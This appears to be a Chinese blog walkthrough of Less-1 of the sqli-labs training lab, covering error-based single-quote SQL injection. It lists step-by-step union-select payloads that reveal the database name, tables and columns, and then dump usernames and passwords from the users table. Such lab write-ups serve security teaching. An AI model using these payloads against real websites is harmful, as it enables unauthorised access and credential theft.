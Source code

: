 ```yaml
---
layout: post
title: 'sql-lab 通关Less1'
subtitle: 'sql-lab 通关Less1'
date: 2021-10-25
categories: SQL
cover: 'https://pic1.zhimg.com/80/v2-e555eb731ca2fcd2196356545b1805d8_720w.jpg?source=1940ef5c'
tags: SQL
---
```

## Less-1 GET - Error based - Single quotes - String(基于错误的GET单引号字符型注入)

![](https://img-blog.csdn.net/20180821152657938?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNDIwNzQ3/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

根据报错信息，可以确定输入参数的内容被存放到一对单引号中间，

猜想：咱们输入的1在数据库中出现的位置为：select ... from ... where id=’1’ ......，

也可以查看sqli-lab中less-1的php文件可以看到，和猜想一致

## 爆库payload
?id=-1' union select 1,2,database() --+
![](https://img-blog.csdn.net/20180821153012575?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNDIwNzQ3/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

## 爆表payload
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+

查到  emails,referers,uagents,users ，显然users是用户数据表

## 爆列名（字段）payload

?id=0' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+

![](https://img-blog.csdn.net/20180821152942236?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNDIwNzQ3/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/700)

## 爆值payload

?id=0' union select 1,2,group_concat(username,0x3a,password) from users--+

0x3a： 0x是十六进制标志，3a是十进制的58，是ascii中的 ':' ，用以分割pasword和username。

![](https://img-blog.csdn.net/20180821152517410?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNDIwNzQ3/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)